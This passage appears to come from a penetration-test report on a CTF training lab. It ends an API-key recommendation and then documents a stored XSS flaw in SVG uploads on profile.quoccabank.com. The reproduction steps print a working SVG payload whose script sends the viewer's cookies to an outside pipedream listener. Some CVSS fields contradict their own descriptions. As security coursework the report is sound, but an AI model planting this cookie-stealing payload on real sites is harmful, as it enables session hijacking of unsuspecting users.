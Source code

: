 We recommend that flagprinter.quoccabank.com endpoint check that the ctfproxy2-key matches the pre-shared key before addressing the request. This ensures that the server is actually receiving a request from the ctfproxy and not from an untrusted source.

In addition, these API keys must periodically be changed. Instead of using one unique API key with all requests, regenerate the API key periodically.

Furthermore, old API keys must be invalidated. This ensures that if a old API key is compromised then the system will securely function.

It is also recommended that ctfproxy2 should ensure that every deployed API is enforcing proper setup practices.

Subsequently, one should not rely exclusively on API keys to protect sensitive, critical or high-value resources. See [OWASP REST Security Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/REST_Security_Cheat_Sheet.html) for more information on securing APIs.

<div class="pagebreak"> </div>

## 1.11. profile.quoccabank.com
**Threat - Stored XSS in SVG image**
### Details
| Metric                   | Description |
| ------------------------ | ----------- |
| Access Vector (AV)       | **Network (N)** - The vulnerable component is bound to the network stack, i.e. remotely exploitable.    |
| Attack Complexity (AC)   | **Low (L)** - The exploit is repeatable without the requirement of system specific reconnaissance or dealing with race conditions.|
| Privileges Required (PR) | **None (N)** - An attacker must possess some user level privileges to store the malicious scripts in the vulnerable  |
| User Interaction (UI)    | **Required (R\)**  - Successful exploitation of this vulnerability requires a user to take some action before the vulnerability can be exploited. In this case, an Admin needs to view the page specified by the attacker.       |
| Scope (S)                | **Changed (C\)** - The vulnerability is in the web server, but the malicious scripts execute in the victim’s browser on their machine.         |
| Confidentiality (C\)     | **None (N)** - There is no loss of confidentiality within the impacted component.        |
| Integrity (I)            | **None (N)** - There is no loss of integrity within the impacted component.       |
| Availability (A)         | **Low (L)** - There is some impact to availability within the impacted component.       |

**CVSS Base Score: 4.7 (MEDIUM)**

### Steps to Reproduce
This vulnerability is found on the profile.quoccabank.com domain, in the image upload section of the page. Users can upload a malign image causing the vulnerability.
- For this vulnerability, the websites offers an upload image option which indicate that it may be vulnerable to the Scalable Vector Graphics (SVG) Cross Site Scripting (XSS) attack.
- We first use [pipedream](https://pipedream.com/) or [webhook](https://webhook.site) to setup a listening domain.
- Next, click the browse button and upload the following SVG payload which contains a fetch script deirected to our domain with a query concatenated with the viewer's cookie.

```xml=
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
   <script type="text/javascript">
      fetch("https://en4wk9uin6mam8n.m.pipedream.net/?a=" + document.cookie)
   </script>
</svg>
```
